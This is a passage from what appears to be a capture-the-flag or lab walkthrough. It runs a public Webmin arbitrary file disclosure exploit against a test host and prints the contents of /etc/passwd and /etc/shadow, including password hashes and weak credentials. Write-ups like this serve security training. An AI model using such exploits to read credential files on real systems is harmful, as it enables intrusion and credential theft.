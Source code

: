 ```
postfix:x:111:119::/var/spool/postfix:/bin/false
dovecot:x:112:121:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
tomcat6:x:113:122::/usr/share/tomcat6:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:123::/var/lib/snmp:/bin/false
nagios:x:116:124::/var/lib/nagios:/bin/false
openerp:x:117:125:Open ERP server,,,:/home/openerp:/bin/false

 -------------------------------------
```

Looks like this random arbitrary file disclosure exploit script worked! From this, we can surmise that the version of webmin is < 1.29. Let's try a few more interesting files:

```
root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/shadow 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/shadow

 FILE CONTENT STARTED
 -----------------------------------
root:*:16137:0:99999:7:::
daemon:*:16137:0:99999:7:::
bin:*:16137:0:99999:7:::
sys:*:16137:0:99999:7:::
sync:*:16137:0:99999:7:::
games:*:16137:0:99999:7:::
man:*:16137:0:99999:7:::
lp:*:16137:0:99999:7:::
mail:*:16137:0:99999:7:::
news:*:16137:0:99999:7:::
uucp:*:16137:0:99999:7:::
proxy:*:16137:0:99999:7:::
www-data:*:16137:0:99999:7:::
backup:*:16137:0:99999:7:::
list:*:16137:0:99999:7:::
irc:*:16137:0:99999:7:::
gnats:*:16137:0:99999:7:::
nobody:*:16137:0:99999:7:::
libuuid:!:16137:0:99999:7:::
syslog:*:16137:0:99999:7:::
landscape:*:16137:0:99999:7:::
vulnosadmin:$6$SLXu95CH$pVAdp447R4MEFKtHrWcDV7WIBuiP2Yp0NJTVPyg37K9U11SFuLena8p.xbnSVJFAeg1WO28ljNAPrlXaghLmo/:16137:0:99999:7:::
sysadmin:admin:16137:0:99999:7:::
webmin:webmin:16137:0:99999:7:::
hackme:hackme:16137:0:99999:7:::
sa:password1:16137:0:99999:7:::
stupiduser:stupiduser:16137:0:99999:7:::
messagebus:*:16137:0:99999:7:::
distccd:*:16137:0:99999:7:::
sshd:*:16138:0:99999:7:::
openldap:!:16138:0:99999:7:::
ftp:!:16138:0:99999:7:::
mysql:!:16138:0:99999:7:::
telnetd:*:16138:0:99999:7:::
bind:*:16138:0:99999:7:::
postgres:*:16138:0:99999:7:::
postfix:*:16138:0:99999:7:::
dovecot:*:16138:0:99999:7:::
```